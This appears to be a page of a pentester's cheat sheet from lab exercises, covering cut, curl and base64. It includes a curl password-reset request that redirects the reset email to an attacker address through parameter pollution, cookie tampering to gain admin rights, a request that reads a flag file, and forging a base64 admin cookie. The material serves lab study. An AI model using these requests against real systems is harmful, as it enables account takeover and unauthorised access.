 ## CUT

|                                   | Description                                                              |
|:--------------------------------- |:------------------------------------------------------------------------ |
| `cut -d ' ' -f 2-`                | Cutting at the delimiter ' ' (space) and only prints the field 2 onwards |
| `getent passwd | cut -d ':' -f 1` | Get a list of all users, remove all content after ':' and print field 1  |

[Back to Top](#table-of-contents)

## CURL

**RESET PASSWORD/EMAIL:**

> - `curl 'http://10.10.212.50/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@gmail.com'` Reset email
> - Being able to reset the password and with the PHP array data and amending the internal database to include the new email. If the query string and the POST string are in the same keyname, then the application logic will favor the POST data fields thereby controlling where the email gets sent

|                                                                                    | Description                                                     |
|:---------------------------------------------------------------------------------- |:--------------------------------------------------------------- |
| `curl -xpost <target_url>`                                                         | Sending POST REQUEST with and getting a response from webserver |
| `curl -H "Cookie: logged_in=true; admin=false" http://$RHOST/cookie-test`          | Tampering with cookies                                          |
| `curl -X POST http://$RHOST/challenges/chall1.php -d 'method=GET&file=/etc/flag1'` | Sending **POST** request                                        |


[Back to Top](#table-of-contents)

## Base64

**DECODING:**

> - Decode a base64 cookie `echo 'eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ' | base64 -d`
  > - {"id":1,"admin":false}
> - Encode the cookie but **with changed values** `echo '{"id":1,"admin":true}' | base64`
  > - eyJpZCI6MSwiYWRtaW4iOnRydWV9Cg==

|      | Description                                                   |
|:---- |:------------------------------------------------------------- |
|      |                                                               |
| `-d` | decode rather than encode the data                            |
| `-i` | ignore non-alphabetical characters and thereby remove garbage |

[Back to Top](#table-of-contents)

------------------------------------------------------------------------------------------------------------------------------------------------------

# VULN-SCANNERS
